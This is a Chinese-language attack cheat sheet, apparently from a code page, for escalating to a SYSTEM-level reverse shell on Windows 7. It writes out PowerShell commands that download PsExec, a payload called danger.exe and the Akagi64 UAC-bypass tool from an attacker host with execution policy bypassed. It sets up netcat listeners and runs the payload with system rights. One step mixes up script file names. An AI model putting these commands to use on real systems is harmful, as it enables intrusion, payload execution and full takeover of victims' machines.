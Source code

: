 # Kali 上下载 psexec

https://technet.microsoft.com/en-us/sysinternals/bb897553.aspx

# 使用 powershell 脚本上传 psexec.exe 到目标机器
echo $client = New-Object System.Net.WebClient > script.ps1
echo $targetlocation = "http://192.168.56.102/PsExec.exe" >> script.ps1
echo $client.DownloadFile($targetlocation,"psexec.exe") >> script.ps1
powershell.exe -ExecutionPolicy Bypass -NonInteractive -File script.ps1

# 使用 powershell 脚本上传 danger.exe 到目标机器
echo $client = New-Object System.Net.WebClient > script2.ps1
echo $targetlocation = "http://192.168.56.102/danger.exe" >> script2.ps1
echo $client.DownloadFile($targetlocation,"danger.exe") >> script2.ps1
powershell.exe -ExecutionPolicy Bypass -NonInteractive -File script2.ps1

# 使用预编译的二进制文件绕过 UAC:

https://github.com/hfiref0x/UACME

# 使用 powershell 脚本上传 https://github.com/hfiref0x/UACME/blob/master/Compiled/Akagi64.exe 到目标机器
echo $client = New-Object System.Net.WebClient > script2.ps1
echo $targetlocation = "http://192.168.56.102/Akagi64.exe" >> script3.ps1
echo $client.DownloadFile($targetlocation,"Akagi64.exe") >> script3.ps1
powershell.exe -ExecutionPolicy Bypass -NonInteractive -File script3.ps1

# 在 Kali 上创建监听
nc -lvp 4444

# 以系统权限使用 Akagi64 运行 danger.exe
Akagi64.exe 1 C:\Users\User\Desktop\danger.exe

# 在 Kali 上创建监听
nc -lvp 4444

# 下一步就会反弹给我们一个提过权的 shell
# 以系统权限使用 PsExec 运行 danger.exe
psexec.exe –i –d –accepteula –s danger.exe
```
以普通用户身份在 Win7 上反弹具有系统权限的 Shell
```
https://technet.microsoft.com/en-us/security/bulletin/dn602597.aspx #ms15-051
